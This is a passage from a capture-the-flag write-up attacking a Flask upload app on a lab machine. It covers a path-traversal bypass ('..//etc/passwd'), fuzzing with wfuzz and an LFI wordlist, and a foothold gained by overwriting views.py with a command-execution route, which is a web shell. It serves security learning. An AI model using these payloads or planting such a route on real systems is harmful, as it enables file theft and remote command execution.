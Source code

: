 But it's using `os.join.path`  which is vulnerable to path traversal if there's an absolute path being used it will ignore the basepath

<img src="https://i.imgur.com/WgJfaUV.png"/>

<img src="https://i.imgur.com/DAbqxzA.png"/>


We can try for LFI here but it's not going to work as the function `get_file_name` is removing `../`  recursively


<img src="https://i.imgur.com/KoBTFmw.png"/>

We can bypass this as Werkzeug will normalize `//upcloud` to `/upcloud`

<img src="https://i.imgur.com/XZtQjsD.png"/>

So we can provide `..//etc/passwd` which will bypass the filter`

<img src="https://i.imgur.com/hXgNrcX.png"/>

Also we can fuzz for the LFI payload using `LFI-Jhaddix.txt` from seclists

```bash
wfuzz -c -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt  -u 'http://10.10.11.164/uploads/FUZZ' --hl 254,5
```

<img src="https://i.imgur.com/3fWNxnp.png"/>

Which url decodes to `../../..//../../etc/passwd` which bypasses the recursive search for `../`

<img src="https://i.imgur.com/J6kyccR.png"/>


<img src="https://i.imgur.com/LLf2Pf5.png"/>


## Foothold (Method 1)
Checking the upload functionality we can upload files and can rewrite files on the server meaning that we need to replace views.py with our own route for executing commands since the server is running in debug mode and it will restart the server on detecting changes , I tested this locally and it was working

<img src="https://i.imgur.com/cP0TPhK.png"/>

<img src="https://i.imgur.com/4YWtnvL.png"/>

I added a route in the file for executing commands

<img src="https://i.imgur.com/uDpuxXN.png"/>

```python
def run_command(command):
    return subprocess.Popen(command, shell=True, stdout=subprocess.PIPE).stdout.read()

@app.route('/<command>')
def command_server(command):
    return run_command(command)
```

